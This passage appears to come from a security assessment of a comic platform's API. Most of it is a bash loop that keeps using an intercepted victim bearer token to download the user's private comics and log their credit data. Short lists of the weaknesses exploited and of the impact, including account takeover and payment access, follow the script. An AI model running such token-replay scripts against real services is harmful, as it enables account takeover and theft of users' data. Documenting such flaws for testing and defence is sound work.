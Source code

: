 ```bash
    echo "[${TIMESTAMP}] Token refreshed successfully" | tee -a "$PERSISTENCE_LOG"
    
    # Perform reconnaissance
    curl -s -X GET "${TARGET_API}/api/comics" \
      -H "Authorization: Bearer ${VICTIM_TOKEN}" | \
      jq -r '.[].comic_id' > current_comics.txt
    
    # Check for new comics
    if [ -f previous_comics.txt ]; then
      NEW_COMICS=$(comm -13 previous_comics.txt current_comics.txt)
      if [ ! -z "$NEW_COMICS" ]; then
        echo "[${TIMESTAMP}] New comics detected!" | tee -a "$PERSISTENCE_LOG"
        echo "$NEW_COMICS" | while read COMIC_ID; do
          curl -s -X GET "${TARGET_API}/api/comics/${COMIC_ID}" \
            -H "Authorization: Bearer ${VICTIM_TOKEN}" \
            > "stolen_comic_${COMIC_ID}.json"
        done
      fi
    fi
    
    mv current_comics.txt previous_comics.txt
    
    # Exfiltrate new data
    curl -s -X GET "${TARGET_API}/api/user/credits" \
      -H "Authorization: Bearer ${VICTIM_TOKEN}" | \
      jq '.' >> credit_history.log
    
  else
    echo "[${TIMESTAMP}] Token expired or invalid" | tee -a "$PERSISTENCE_LOG"
    break
  fi
  
  # Wait 5 minutes before next renewal
  sleep 300
done
```

#### Success Criteria
- Token intercepted during transmission
- No IP binding enforced
- 15-minute window provides ample time
- No token revocation mechanism

#### Impact Assessment
- **User Account Takeover**
- Access user's private comics
- Modify user preferences
- Perform actions as the user
- Drain user credits
- Access payment information
